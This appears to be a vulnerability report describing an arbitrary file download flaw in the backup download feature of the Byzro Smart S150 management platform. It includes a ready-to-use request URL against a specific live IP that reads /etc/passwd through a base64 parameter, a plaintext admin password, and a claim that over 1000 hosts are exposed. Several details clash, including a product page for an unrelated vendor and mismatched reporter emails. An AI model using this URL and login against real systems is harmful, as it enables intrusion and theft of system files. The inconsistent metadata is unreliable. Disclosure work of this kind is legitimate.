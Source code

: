 **Affected product:**Byzro Networks Smart S150 management platform

**Vendor of the product:** Byzro Networks Smart S150 management platform

**Product page:** https://connectivity.viessmann.com/gb/mp-fp/vitogate/vitogate-300-bn-mb.html

**Affected system version:** S150

**Firmware download address:** 

https://218.205.129.204:8443/patrolflow.php


**Reported by:** Songyuqing ([q14774807663@gmail.com](mailto:pushe4x@gmail.com))

# [Description]

Where backup files are configured, there is no filtering of parameters for downloading files, which can result in the downloading of arbitrary sensitive files such as passwd

# [Vulnerability details]

Where backup files are configured, there is no filtering of parameters for downloading files, which can result in the downloading of arbitrary sensitive files such as passwd



First login to our example server, click Device Management - Configuration Management - Download Backup File(设备管理-配置管理-下载备份文件), and then use burpsuite to capture the packet, we can see the filename, when we change the filename parameter to, passwd, we find that the device still executes our request and downloads the passwd file

and you can use this url to test:https://218.205.129.204:8443/log/download.php?local=yes&type=filedown&file=L2V0Yy9wYXNzd2Q=&filename=passwd



Proof of network-wide assets, with over 1000 ip's using the system

![](https://github.com/GTA12138/vul/blob/main/smart%20s150/6.png)



admin/b3f9t8k7

![](https://github.com/GTA12138/vul/blob/main/smart%20s150/5.png)



![](https://github.com/GTA12138/vul/blob/main/smart%20s150/s150%20Download%20any%20file/a.png)

![](https://github.com/GTA12138/vul/blob/main/smart%20s150/s150%20Download%20any%20file/b.png)

![](https://github.com/GTA12138/vul/blob/main/smart%20s150/s150%20Download%20any%20file/c.png)

![](https://github.com/GTA12138/vul/blob/main/smart%20s150/s150%20Download%20any%20file/e.png)

![](https://github.com/GTA12138/vul/blob/main/smart%20s150/s150%20Download%20any%20file/d.png)
